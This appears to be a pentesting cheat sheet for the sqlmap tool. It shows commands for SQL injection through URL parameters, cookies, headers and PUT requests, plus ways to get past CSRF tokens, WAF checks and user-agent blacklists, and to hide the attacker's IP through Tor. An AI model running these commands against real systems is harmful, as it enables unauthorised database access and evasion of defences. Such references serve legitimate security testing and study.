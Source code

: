 ```
sqlmap -u "http://example.com/?id=1"  -p id --prefix="') "
```


## Injections in Headers and other HTTP Methods


```
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```


## Common bypasses

```bash
# Upgrade level and risk options. 
# The option --level (1-5, default 1) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
sqlmap -u www.example.com/?id=1 -v 3 --level=5

# The option --risk (1-3, default 1) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
sqlmap -u www.example.com/?id=1 --level=5 --risk=3

# Bypass Anti-CSRF Token
sqlmap -u www.example.com --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

# Unique Value Bypass
sqlmap -u www.example.com/?id=1&rp=29125 --randomize=rp

# Calculated Parameter Bypass. A web application expects a proper parameter value to be calculated based on some other parameter value(s). Most often, one parameter value has to contain the message digest (e.g. h=MD5(id)) of another one. To bypass this, the option --eval should be used, where a valid Python code is being evaluated just before the request is being sent to the target
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b"  --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch

# IP Address Concealing. Using Tor
sqlmap -u "http://www.example.com" --tor --batch

# Checking out the use of tor with --check-tor 
sqlmap -u "http://www.example.com" --tor --batch --check-tor

# SQLMap uses a third-party library identYwaf, containing the signatures of 80 different WAF solutions. If we wanted to skip this heuristical test altogether (i.e., to produce less noise), we can use switch --skip-waf.
sqlmap -u "http://www.example.com" --skip-waf --batch 

# User-agent Blacklisting Bypass. In case of immediate problems (e.g., HTTP error code 5XX from the start) while running SQLMap, one of the first things we should think of is the potential blacklisting of the default user-agent used by SQLMap (e.g. User-agent: sqlmap/1.4.9 (http://sqlmap.org)).
sqlmap -u "http://www.example.com" --random-agent  --batch 

```